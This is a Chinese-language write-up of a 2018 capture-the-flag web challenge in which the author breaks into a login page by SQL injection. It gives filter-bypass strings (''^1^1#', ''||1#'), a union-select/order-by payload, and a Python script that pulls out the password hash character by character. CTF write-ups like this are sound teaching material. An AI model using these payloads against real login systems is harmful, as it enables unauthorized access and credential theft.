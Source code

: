 ```yaml
---
title: 2018ZJGSCTFwriteup
date: 2018-05-07 10:36:05
tags:
---
```

没人做那就只能自己写了。
<!--more-->
## [LOGIN](http://10.21.13.154:35353/)
### 1.进入网站后是一个登陆界面，先是随便输入用户名和密码，发现弹窗消息。
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2kur9kayj30c8041jr8.jpg)
根据提示要拿到flag就必须要先找到username。开始先试了admin等一些常规的用户名发现都不行。那就思考后台php中的sql语句是怎么样的根据绕过sql语句来得到username。
``` sql
select * from admin where username='' and password=''
```
### 2.猜测后台中的语句应该是这样的，那就来构造绕过这个使用' or 1=1#使得where后面的结果为真
返回查询结果。输入测试后发现，or ，=，where等词被过滤了。
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l3u0hu4j30bt03amwz.jpg)
然后就思考另外的方法来使得where后面的条件为真，可以使用这些方法，'^1^1#,'||1#来绕过这些得到两个重要的提示。
![image](http://ww4.sinaimg.cn/large/0069oIoUgy1fr2l88x3ihj30c503ha9w.jpg)

![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l8p6bxkj30bx037glf.jpg) 
知道了password就是flag经过md5加密后的内容那就需要来猜测password的值了
### 3.基于上面有username返回所以是一个回显的注入。那就可以构造如下sql语句来猜测password的名
``` sql
yt_ia_a_handsome_boy' union select 1,2,0x80 order by 3 desc#
```
### 4.由上面提示可以知道password是一串经过md5加密后的16进制字符串利用union select插入一行，并在password
即第三列插入的是16进制的字符串，根据第三列的大小对每行数据进行排序。执行完sql语句，根据页面回显的数据一位一位来猜解password的内容。
显示结果如下：
当插入的16进制值大于password的值会返回如下内容
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2ltl5hu9j30bi02ywea.jpg)
当插入的内容小于password的值会返回username的值
![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2lv97wbrj30bq034glf.jpg)
### 5.根据上面测试的情况用python写脚本如下
``` python 
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://10.21.13.154:35353/index.php"
    testStr = makeStr(48,127)
    username = "yt_ia_a_handsome_boy' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "yt_ia_a_handsome_boy" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i
if __name__== '__main__':
    getPassword()
```
### 6.运行后得到password的值
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2lznt8voj30eo09zjre.jpg)
[MD5j解码](http://www.cmd5.com/)后得到flag

